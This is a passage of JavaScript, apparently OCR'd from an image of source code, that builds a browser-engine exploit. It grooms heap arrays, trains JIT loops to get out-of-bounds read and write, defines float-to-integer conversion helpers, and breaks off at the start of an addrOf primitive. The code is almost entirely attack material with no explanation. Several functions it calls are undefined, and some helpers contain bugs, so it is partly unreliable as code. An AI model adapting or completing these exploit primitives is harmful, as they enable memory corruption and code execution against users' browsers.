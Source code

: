 ``` html

function oobWrite(addr) {
  x[24] = addr;
}

var arr0 = new Array(10); arr0.fill(1);arr0.a = 1;
var arr1 = new Array(10); arr1.fill(2);arr1.a = 1;
var arr2 = new Array(10); arr2.fill(3); arr2.a = 1;
var x = arr0;

gc();gc();
  
var arr = new Array(30); arr.fill(4); arr.a = 1;
var b = new Array(1); b.fill(1);
var writeArr = [1.1];

for (let i = 0; i < 19321; i++) {
  if (i == 19319) arr2[0] = 1.1;
  foo(arr1);
}

x[0] = 1.1;

for (let i = 0; i < 20000; i++) {
  oobRead();
}

for (let i = 0; i < 20000; i++) oobWrite(1.1);
foo(arr);

var view = new ArrayBuffer(24);
var dblArr = new Float64Array(view);
var intView = new Int32Array(view);
var bigIntView = new BigInt64Array(view);
b[0] = instance;
var addrs = oobRead();

function ftoi32(f) {
  dblArr[0] = f;
  return [intView[0], intView[1]];
}

function i32tof(i1, i2) {
  intView[0] = i1;
  intView[1] = i2;
  return dblArr[0];
}

function itof(i) {
  bigIntView = BigInt(i);
  return dblArr[0];
}

function ftoi(f) {
  dblArr[0] = f;
  return bigIntView[0];
}


dblArr[0] = addrs[0];
dblArr[1] = addrs[1];

function addrOf(obj) {
```